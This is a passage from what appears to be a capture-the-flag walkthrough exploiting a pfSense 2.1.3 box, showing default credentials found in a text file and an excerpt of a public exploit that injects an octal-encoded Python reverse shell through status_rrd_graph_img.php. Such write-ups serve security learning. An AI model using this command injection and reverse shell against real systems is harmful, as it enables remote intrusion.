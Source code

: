 Two files that immediately catch my eye are changelog.txt & system-users.txt.

![](https://miro.medium.com/max/964/1*jRsyREuNyULhMXjRnLj3Kw.png)

The change-log.txt file tells us that they’re definitely using a vulnerable version of pfSense. However, they did patch two of the three vulnerabilities that are associated with this software. We have to keep that in mind when exploiting the application.

The system-users.txt file gives us credentials!

![](https://miro.medium.com/max/561/1*BQz3D5xII-W4P6XHDmpFZg.png)

The username is **rohit** and the password is the default password **pfsense**. Let’s log into the application.

![](https://miro.medium.com/max/587/1*RUQXFAarmJ1LmoMTxiIdtA.png)

The version number is 2.1.3. If we go back to our searchsploit results, one exploit does stand out.

![](https://miro.medium.com/max/1299/1*1JawlP5h4L_nNyUrMdRGpQ.png)

## Exploitation <a id="d1d3"></a>

Transfer the exploit to our directory.

```text
searchsploit -m 43560.py
```

Let’s look at the[ exploit](https://www.exploit-db.com/exploits/43560) to see what it’s doing.

```text
.....# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
......
```

It seems that the status\_rrd\_graph\_img.php script is vulnerable to a command injection. To exploit that, the script is passing a simple python reverse shell \(with the configuration parameters we pass as arguments\) as a command. It does octal encode the reverse shell command which leads me to believe that there is either some form of filtering being done at the backend or the application crashes on certain characters. To sum up, it’s a very simple script that sends a reverse shell back to our attack machine.
